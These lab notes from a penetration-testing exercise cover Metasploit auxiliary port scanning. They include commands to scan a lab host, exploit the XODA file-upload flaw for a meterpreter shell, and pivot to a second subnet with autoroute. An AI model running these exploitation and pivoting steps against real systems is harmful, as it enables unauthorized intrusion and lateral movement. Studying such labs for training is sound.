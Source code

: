 ### Port scanning with auxiliary

#### Description

* Auxiliary modules are used to perform functionality like scanning, discovery and fuzzing.
* We can use auxiliary modules to perform both TCP and UDP port scanning as well as enumerating information from services like FTP, SSH, HTTP etc.
* Auxiliary modules can be used during the information gathering phase of a penetration test as well as the post exploitation phase.
* We can also use auxiliary modules to discover hosts and perform port scanning on a different network subnet after we have obtained initial access on a target system.

#### Lab infrastucture

* Our objective is to utilize auxiliary modules to discover open ports on our first target.
* The next step will involve exploiting the service running on the target in order to obtain a foothold.
* We will then utilize our foothold to access other systems on a different network subnet (pivoting).
* We will then utilize auxiliary modules to scan for open ports on the second target.

```bash
root@attackdefense> service postgresql start && msfconsole

msf5> db_status
msf5> workspace -a port_scan
msf5> search portscan
msf5> use auxiliary/scanner/portscan/tcp
msf5> set rhosts 192.8.146.3
msf5> run
```

The port `192.8.146.3:80` is open.

```
msf5> curl 192.8.146.3
msf5> search xoda
msf5> use exploit/unix/webapp/xoda_file_upload
msf5> set rhosts 192.8.146.3
msf5> set targeturi /
msf5> run

meterpreter> sysinfo
meterpreter> shell
/bin/bash -i

www-data@victim-1> ifconfig
```

The target has two interfaces : `192.8.146.3` and `192.81.84.2`.

```
meterpreter> run autoroute -s 192.81.84.2

Ctrl+Z for background

msf5> sessions
```
